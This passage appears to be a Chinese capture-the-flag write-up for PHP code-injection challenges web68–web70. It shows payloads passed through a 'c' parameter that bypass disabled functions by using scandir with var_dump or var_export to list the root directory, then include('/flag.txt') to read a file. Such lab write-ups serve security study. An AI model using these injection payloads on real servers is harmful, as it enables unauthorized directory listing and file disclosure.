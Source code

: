 



<img src="https://i-blog.csdnimg.cn/blog_migrate/c929c823d86e36caa80303852689f4c8.png" alt="" style="max-height:181px; box-sizing:content-box;" />


一打开就是 报错

那我们就知道是 highlight_file 被禁止

我们继续看看

```lisp
c=var_dump(scandir('/'));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5a81d242cf00b79022643dbb3a8f922f.png" alt="" style="max-height:261px; box-sizing:content-box;" />


那我们直接包含 flag.txt文件

```php
c=include('/flag.txt');
```

## web69  var_dump 被禁用



<img src="https://i-blog.csdnimg.cn/blog_migrate/b7329a9113ad8b566330d977fe442d16.png" alt="" style="max-height:201px; box-sizing:content-box;" />


那我们可以使用另一个

```lisp
c=var_export(scandir('/'));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/99e452879c02dbf3cc5d2b5118a424ce.png" alt="" style="max-height:254px; box-sizing:content-box;" />


然后继续include访问

```php
c=include('/flag.txt');
```

## web70



<img src="https://i-blog.csdnimg.cn/blog_migrate/bffe5e7692f8a4e3229e1c116888bbc3.png" alt="" style="max-height:216px; box-sizing:content-box;" />


和上一题一样做法

```lisp
c=var_export(scandir('/'));
c=include('/flag.txt');
```
